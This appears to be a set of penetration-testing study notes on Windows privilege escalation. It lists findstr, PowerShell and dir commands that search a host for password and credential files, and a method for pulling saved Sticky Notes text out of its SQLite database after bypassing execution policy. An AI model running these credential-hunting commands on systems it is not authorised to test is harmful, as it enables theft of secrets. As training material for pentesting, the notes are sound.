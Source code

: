 ```
        (  https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#search-for-a-file-with-a-certain-filename )

        C:\> cd c:\Users\-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt

        -Search File Contents with PowerShell

        PS C:\> select-string -Path C:\Users\-student\Documents\*.txt -Pattern password

        -Search for File Extensions - Example 1

        C:\> dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*

        -Search for File Extensions - Example 2

        C:\> where /R C:\ *.config


        -Search for File Extensions Using PowerShell

        PS C:\> Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore


        -Sticky Notes Passwords

        This file is located at C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite and is always worth searching for and examining.

        We can copy the  plum.sqlite* files down to our system and open them with a tool such as DB Browser for SQLite and view the Text column in the Note table with the query select Text from Note;.


        -Viewing Sticky Notes Data Using PowerShell

        This can also be done with PowerShell using the PSSQLite module. First, import the module, point to a data source (in this case, the SQLite database file used by the StickNotes app), and finally query the Note table and look for any interesting data. This can also be done from our attack machine after downloading the .sqlite file or remotely via WinRM.

        (  https://github.com/RamblingCookieMonster/PSSQLite  )


        PS C:\> Set-ExecutionPolicy Bypass -Scope Process

        PS C:\> cd .\PSSQLite\
        PS C:\> Import-Module .\PSSQLite.psd1
        PS C:\> $db = 'C:\Users\-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
        PS C:\> Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap



        -Strings to View DB File Contents

        $  strings plum.sqlite-wal


        -Other Files of Interest

        %SYSTEMDRIVE%\pagefile.sys
        %WINDIR%\debug\NetSetup.log
```
